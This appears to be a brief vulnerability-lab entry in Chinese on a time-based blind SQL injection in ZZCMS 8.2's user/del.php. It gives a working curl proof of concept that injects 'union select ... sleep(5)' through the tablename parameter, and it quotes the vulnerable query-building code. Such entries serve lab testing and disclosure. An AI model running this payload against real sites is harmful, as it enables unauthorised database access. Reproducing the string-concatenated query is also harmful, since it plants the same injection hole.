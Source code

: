 ## user/del.php 无回显注入

测试镜像

* src/zzcms/8.2/

影响版本

* 8.2

参考链接

* [ZZCMS v8.2 最新版SQL注入漏洞](http://www.freebuf.com/vuls/161888.html)

Poc

```
curl '127.0.0.1/user/del.php' -d 'id=1&tablename=zzcms_answer union select 1, sleep(5)%23'
```

关键代码

```
# 获取表名后，使用 switch/case 去分别处理
$tablename=trim($_POST["tablename"]);

...

# 在默认分支，拼接了这个参数导致注入
$sql="select id,editor from ".$tablename." where id ='$id'";
```


